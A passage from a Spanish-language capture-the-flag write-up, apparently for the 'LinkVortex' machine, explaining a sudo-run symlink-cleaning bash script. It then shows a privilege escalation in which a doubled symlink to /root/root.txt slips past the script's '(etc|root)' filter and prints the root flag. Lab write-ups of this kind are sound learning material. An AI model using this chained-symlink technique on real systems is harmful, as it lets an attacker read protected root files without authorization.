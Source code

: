 He procedido a explicar el código en el siguiente bloque.
```shell
#!/bin/bash

# Directorio donde se moverán los enlaces simbólicos sospechosos
QUAR_DIR="/var/quarantined"

# Si la variable de entorno CHECK_CONTENT no está definida, se establece en false
if [ -z $CHECK_CONTENT ]; then
  CHECK_CONTENT=false
fi

# archivo .png
LINK=$1

# Verifica que el argumento termine en .png
if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

# Verifica si el archivo es un enlace simbólico
if /usr/bin/sudo /usr/bin/test -L $LINK; then
  # Obtiene el nombre base del enlace (sin ruta)
  LINK_NAME=$(/usr/bin/basename $LINK)
  
  # Obtiene el destino al que apunta el enlace
  LINK_TARGET=$(/usr/bin/readlink $LINK)

  # Si el enlace apunta a una ruta que contiene "etc" o "root", se considera crítico
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)'; then
    # Se elimina el enlace simbólico por seguridad
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    # Si no es crítico, se mueve a la carpeta de cuarentena
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT; then
      # Si CHECK_CONTENT es true, se muestra el contenido del archivo apuntado (si existe)
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

Evidenciando la falla, he procedido a concatenar dos enlaces simbólicos con el fin de eludir la detección de `(etc|root)` y posteriormente realizo la ejecución del script.

```shell
bob@linkvortex:~$ ln -s /root/root.txt test.txt
bob@linkvortex:~$ ln -s /home/bob/test.txt test.png
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
Link found [ test.png ] , moving it to quarantine
Content:
bdbb0***********fe7c2c
```
